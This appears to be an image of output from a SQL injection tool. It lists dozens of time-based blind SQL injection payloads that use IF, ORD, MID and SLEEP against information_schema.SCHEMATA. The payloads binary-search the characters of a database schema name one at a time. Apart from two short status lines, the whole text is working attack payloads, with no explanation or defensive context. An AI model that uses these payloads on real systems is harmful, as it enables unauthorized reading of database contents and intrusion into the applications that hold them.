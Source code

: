 Field length: 18


Determinating values of field: SCHEMA_NAME

{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=100,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>100,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=102,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>102,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=101,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=120,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>120,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=116,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>116,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=114,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=64,SLEEP(0.155797244898),SLEEP(0))}